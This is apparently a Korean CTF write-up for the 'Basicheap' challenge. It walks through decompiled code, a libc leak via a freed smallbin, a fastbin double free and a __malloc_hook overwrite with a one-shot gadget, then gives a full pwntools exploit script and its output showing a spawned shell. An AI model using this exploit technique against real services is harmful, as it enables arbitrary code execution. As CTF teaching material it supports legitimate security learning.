 ```yaml
---
title: TenDollar CTF - Basicheap
date: 2018-11-30 00:06:52
---
```


```c
unsigned __int64 sub_980()
{
  int v0; // ebx
  int v2; // [rsp+4h] [rbp-1Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-18h]

  v3 = __readfsqword(0x28u);
  puts("Input Length");
  _isoc99_scanf("%d", &v2);
  v0 = dword_20202C;
  qword_202030[v0] = malloc(v2);
  puts("Input Memo!");
  read(0, qword_202030[dword_20202C], v2);
  ++dword_20202C;
  puts("Create Note Done.\n");
  return __readfsqword(0x28u) ^ v3;
}
```

1번 메뉴에서 사이즈를 지정하여 malloc을 해줌

```c
unsigned __int64 sub_A59()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0;
  puts("Choose Note");
  _isoc99_scanf("%d", &v1);
  puts((const char *)qword_202030[v1]);
  return __readfsqword(0x28u) ^ v2;
}
```

2번 메뉴로 릭이 가능하다.

```c
unsigned __int64 sub_AD2()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v1 = 0;
  puts("Choose Note");
  _isoc99_scanf("%d", &v1);
  free(qword_202030[v1]);
  puts("Delete Note Done.\n");
  return __readfsqword(0x28u) ^ v2;
}
```

3번 메뉴 free가 자유롭다. 

공격 시나리오는 fastbin fastbin smallbin fastbin -> smallbin free (libc leak) -> fastbin double free -> malloc_hook overwrite 



일단 처음부터 0x60으로 만들어서 나중에 귀찮지 않게 처음부터 fake chunk size에 맞춰주고 smallbin, top chunk와 병합을 하지 않을 fastbin을 하나 더 만들고 smallbin free 후 libc leak을 한다.

fake chunk를 할당할 주소는 malloc_hook-35 지점인데 

```c
gdb-peda$ x/10gx 0x7f189914faed + 35
0x7f189914fb10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
```

저 malloc_hook 지점에 overwrite를 하기 위해선 일단 malloc_hook - 0x10 지점에 chunk를 할당해야 하는데..

```c
gdb-peda$ x/10gx 0x7f189914faed + 25
0x7f189914fb06 <__memalign_hook+6>:	0x7f1898e10a000000	0x0000000000000000
```

이 지점에서 보면 size 필드가 0이므로 size error가 나기 때문에 할당을 할 수가 없다. 결국 넣을만한 size 필드를 찾아서 넣어줘야 한다.

```c
gdb-peda$ x/10gx 0x7f189914faed
0x7f189914faed <_IO_wide_data_0+301>:	0x189914e260000000	0x000000000000007f
```

size 필드가 7f이기 때문에 처음부터 0x60 size의 chunk를 할당해 준 것!

```c
gdb-peda$ x/2gx 0x7f6373edaaed + 35
0x7f6373edab10 <__malloc_hook>:	0x00007f6373c07147	0x000000000000000a
gdb-peda$ x/gx 0x00007f6373c07147
0x7f6373c07147 <exec_comm+2263>
```

malloc_hook에 원샷 가젯을 넣고 다시 malloc을 하면 쉘이 실행된다.

```python
from pwn import * 

t = process("./tf")

def c(a,b):
    t.sendlineafter("Quit","1")
    t.sendlineafter("Input Length",str(a))
    t.sendlineafter("Input Memo!",str(b))

def s(a):
    t.sendlineafter("Quit","2")
    t.sendlineafter("Note",str(a))

def d(a):
    t.sendlineafter("Quit","3")
    t.sendlineafter("Note",str(a))

c(0x60,"a")
c(0x60,"")
c(0x100,"b")
c(0x60,"c")

d(2)
s(2)

t.recvline()
ma = u64(t.recv(6).ljust(8,'\x00'))
#print hex(ma)

libc = ma - 0x3c4b78
log.success("libc : " + hex(libc))
malloc_hook = libc + 0x00000000003C4B10
log.success("malloc_hook : " + hex(malloc_hook))
one = libc + 0x00000000000F1147
log.success("oneshot : " + hex(one))
c(0x100,"b")

d(0)
d(1)
d(0)

c(0x60,p64(malloc_hook-35))
c(0x60,"a")
c(0x60,"b")
pause()
c(0x60,"a"*3 + p64(one)*3)
pause()
t.sendline("1")
t.sendline("1")

t.interactive()
->
bskim@bsbuntu:~/pwnable/heap$ python tf.py
[+] Starting local process './tf': pid 14771
[+] libc : 0x7f32af032000
[+] malloc_hook : 0x7f32af3f6b10
[+] oneshot : 0x7f32af123147
[*] Paused (press any to continue)
[*] Paused (press any to continue)
[*] Switching to interactive mode

Create Note Done.

Simple Note!!
1. Create Note
2. Show your Memo
3. Delete Note
4. Quit
Input Length
$ id
uid=1000(bskim)
```

최종 익스코드 
